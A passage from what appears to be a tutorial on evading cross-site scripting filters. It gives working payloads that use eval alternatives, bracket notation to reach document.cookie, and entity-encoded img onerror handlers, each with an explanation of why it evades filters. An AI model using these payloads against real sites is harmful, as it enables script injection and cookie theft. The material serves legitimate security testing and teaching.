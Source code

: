 🧠 Why it works:

* Filters block `"alert"`—but if you construct it dynamically, they miss it.
* Base64 (`atob`) adds another layer of obfuscation.

---

## 🚫 Alternatives to `eval()`

Some filters block `eval` — but JavaScript has **many eval-like behaviors**.

```html
<script>'alert(1)'.replace(/.+/, eval)</script>  // Calls eval
<script>Function('alert(1)')()</script>          // Function constructor
```

🧠 Why it works:

* These act like `eval()` without using the word.
* `Function()` is often overlooked by weak filters.

---

## 🧩 Bypassing Dot (`.`) Blocking

Some filters block the period (`.`), which breaks `document.cookie`.

But you can still get what you want:

```html
<script>alert(document['cookie'])</script>
<script>with(document) alert(cookie)</script>
```

🧠 Why it works:

* Using bracket notation (`['cookie']`) or `with()` avoids the dot entirely.

---

## 🎭 Combining HTML + JavaScript Obfuscation

### Example:

```html
<img onerror=eval('al&#x5c;u0065rt(1)') src=a>
```

🧠 Why it works:

* `&#x5c;` = backslash, so it becomes `\u0065`, which is `e`.
* Result: `alert(1)`
* All encoded in HTML so it dodges both **HTML and JS** filters.

You can go further:

```html
<img onerror=&#x65;&#x76;&#x61;&#x6c;&#x28;&#x27;al&#x5c;u0065rt&#x28;1&#x29;&#x27;&#x29; src=a>
```
